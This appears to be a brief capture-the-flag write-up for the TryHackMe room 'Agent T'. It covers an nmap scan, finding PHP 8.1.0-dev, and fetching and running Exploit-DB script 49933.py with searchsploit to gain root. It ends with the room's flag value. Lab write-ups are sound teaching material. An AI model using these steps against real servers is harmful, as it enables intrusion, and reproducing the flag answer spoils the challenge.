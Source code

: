 # [Agent T](https://tryhackme.com/room/agentt)

> Something seems a little off with the server.

## Scanning

scan the target

```
nmap -sS -sV -sC 10.10.151.122
```

![image](https://user-images.githubusercontent.com/90561566/212789516-7e6856e5-a97f-4f94-b9ba-8e9d66122423.png)

## HTTP

go to the webpage

![image](https://user-images.githubusercontent.com/90561566/212789709-004e2e84-376c-4ed6-b356-8a84e041d025.png)

we found a admin dardboard that contain a searchbar

## Enumeration

just try a request, i found the version of php

![image](https://user-images.githubusercontent.com/90561566/212789919-c64048e0-a715-4fd9-ac34-888da01d0d76.png)

quick search for cve

```
searchsploit php 8.1.0-dev
```

![image](https://user-images.githubusercontent.com/90561566/212790271-2c9a022a-50d6-456b-90bb-311c1bbb8fb6.png)

## Exploitation

```
searchsploit -m 49933.py
python3 49933.py
```

![image](https://user-images.githubusercontent.com/90561566/212790541-dc03c007-0b5b-4b06-b2fd-8f188858c147.png)

wow amazing, we got root user

```
find / -name *flag*.txt 2>/dev/null
```

![image](https://user-images.githubusercontent.com/90561566/212790782-4676cfc0-c4c7-41de-94c3-54b76bf9335a.png)

| Flag | user.txt |
| --- | --- |
| Answer | flag{4127d0530abf16d6d23973e3df8dbecb} |
